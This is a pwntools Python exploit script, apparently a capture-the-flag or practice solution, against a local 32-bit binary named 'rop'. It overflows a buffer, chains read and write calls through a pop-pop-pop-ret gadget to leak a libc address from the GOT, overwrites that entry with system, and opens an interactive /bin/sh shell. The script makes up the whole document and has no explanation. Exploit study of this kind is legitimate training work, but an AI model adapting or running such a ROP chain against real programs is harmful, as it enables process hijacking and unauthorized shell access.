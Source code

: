 ```python
from pwn import *
from struct import *
 
#context.log_level = 'debug'
  
binsh = "/bin/sh"
  
stdin = 0
stdout = 1
  
read_plt = 0x8048300
read_got = 0x804a00c
write_plt = 0x8048320
write_got = 0x804a014

read_system_offset = 0x9ae70
writableArea = 0x0804a020 #.bss
pppr = 0x80484e9 #pop pop pop ret
  
payload = "A"*62
 
 
#read(0,writableArea,len(str(binsh)))
payload += p32(read_plt)
payload += p32(pppr)
payload += p32(stdin)
payload += p32(writableArea)
payload += p32(len(str(binsh)))
 
#write(1,read_got,len(str(read_got)))
payload += p32(write_plt)
payload += p32(pppr)
payload += p32(stdout)
payload += p32(read_got)
payload += p32(4)
 
#read(0,read_got,len(str(read_got)))
payload += p32(read_plt)
payload += p32(pppr)
payload += p32(stdin)
payload += p32(read_got)
payload += p32(len(str(read_got)))
 
#system(writableArea)
payload += p32(read_plt)
payload += p32(0xaaaabbbb)
payload += p32(writableArea)
  
r = process('./rop')
r.recvn(10)
r.send(payload + '\n')
r.send(binsh)
read = u32(r.recvn(4))
system_addr = read - read_system_offset
r.send(p32(system_addr))
r.interactive()
```
